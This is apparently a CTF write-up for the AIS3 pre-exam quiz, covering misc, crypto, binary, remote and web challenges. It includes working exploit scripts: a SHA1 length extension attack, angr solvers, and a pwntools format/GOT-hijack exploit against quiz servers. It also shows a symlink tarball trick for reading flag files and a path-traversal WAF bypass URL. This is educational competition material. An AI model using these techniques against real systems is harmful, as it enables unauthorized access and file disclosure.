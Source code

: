 ## Misc 1

Open the url and prompt the flag.

## Misc 2

It's a 7zip chain... Modify each byte from 0x5a to 0x7z at offset 0x01, and then you'll be able to decompress it with password, which is shown as the filename or the content of the other unencrpyted file.

## Misc 3

It's just like [this case](http://josipfranjkovic.blogspot.tw/2014/12/reading-local-files-from-facebooks.html) happened to Facebook. You create a symlink named `guess.txt` to `../flag.txt`, then you add this symlink to tarball file and upload it to quiz server. You should bypass sha1sum's validation.

## Crypto 1

[xortool](https://github.com/hellman/xortool) is enough. Try to be patient to find out where the flag is.

## Crypto 2

### Intended Sulution

It's a [Length Extension Attack](www.freebuf.com/articles/web/31756.html) problem. Following is my example exploit script:

```python
from hashpumpy import hashpump
import requests
import urlparse
import re

for i in xrange(61):
	mac, ext = hashpump('41fe78ff2c2c51e758bf4501fd8e6a9b8d478f4e', 'expire=1467391984', '&expire=2577390020', i)

	ext = urlparse.parse_qs(ext)

	r = requests.get('https://quiz.ais3.org:8014/', params=[('expire', ext["expire"][0]), ('expire', ext["expire"][1]), ('auth', mac)])

	failed = re.search('<div id="flag">.*ais3{.*', r.content)
	if failed:
		print "{}: {}".format(i, failed.group())
		break
```

### Unintended Sulution

Because quiz server do not check the situation that ones can reuse the values of auth and expire that server gave after redirection, we can just reuse those values and append `&expire=9999999999` to the end of the url. Voila, we get the flag.

## Crypto 3

TBA.

## Binary 1

I use [angr](https://github.com/angr/angr) to solve the problem. Following is my example exploit script:

```python
import angr

proj = angr.Project('./rev')

argv1 = angr.claripy.BVS("argv1",30*8)
initial_state = proj.factory.path(args=["./rev", argv1])

path_group = proj.factory.path_group(initial_state)

path_group.explore(find=0x4006d7, avoid=0x4006cd) 

solution = path_group.found[0].state.se.any_str(argv1)

solution = solution[:solution.find("\x00")]
print solution
```

## Binary 2

It's a 64-bit machine code. You can get it presented as byte-to-byte form through: ```echo -e "..." | hexdump -e '"\\\x" /1  "%02x"'```.

## Binary 3

I use [angr](https://github.com/angr/angr) to solve the problem. Following is my example exploit script:

```python
import angr
import re

def main():
    proj = angr.Project('./caaaaalculate',  load_options={'auto_load_libs': False})

    state = proj.factory.blank_state(addr=0x402439) # main

    stdin = state.se.BVS("stdin", 30 * 8)

    k = []
    ans = []

    # Constrain 30 bytes char to be non-null and non-newline:
    for i in xrange(30):
        k.append(state.posix.files[0].read_from(1))
        state.se.add(k[i] != 0)
        state.se.add(k[i] != 10)

    # Reset the symbolic stdin's properties and set its length.
    state.posix.files[0].seek(0)
    state.posix.files[0].length = 30

    path_group = proj.factory.path_group(state, threads=4)

    path_group.explore(find=0x402487, avoid=0x40247d)

    for i, item in enumerate(k):
        ans.append(path_group.found[0].state.se.any_str(item))

    ans = ''.join(ans)

    return re.search('ais3{.+}', ans).group(0)


if __name__ == '__main__':
    print main()

```

## Remote 1

You can follow [this write-up](http://mslc.ctf.su/wp/plaidctf-2012-format-99-pwnables/) to get how to solve this problem.

## Remote 2

The program will ask you to give itself your name up to 100 bytes, and if you disassemble it, you'll find the last four bytes will be passed as store address of first scanf function. Thus, you can `readelf -r ./remote2` to check GOT addresses of all functions, and your last four bytes should be replace by any of addresses. Then, you can GOT hijack the program to jump to any position depending on your input passing to the first scanf. Following is my example exploit script:

```python
from pwn import *

r = remote('quiz.ais3.org', 53125)
print r.recv()
r.sendline('A'*96 + p32(0x0804a038))
print r.recv()
r.sendline(str(0x080486d9))
print r.recvall()
```

## Remote 3

TBA.

## Web 1

It's because `robots.txt` that Google bot cannot do anything.

## Web 2

Because there is not exit statement below header function, the script execution is not terminated. [noredirect addon](https://addons.mozilla.org/en-US/firefox/addon/noredirect/) can help you in this situation.

## Web 3

Since the argument passed into parse_url function is $_SERVER['REQUEST_URI'], we can just prepend some slashes to the beginning of the root path. Thus, we can bypass waf and get flag printed.

For instance, `https://quiz.ais3.org:8013///download.php?p=../flag.php`.
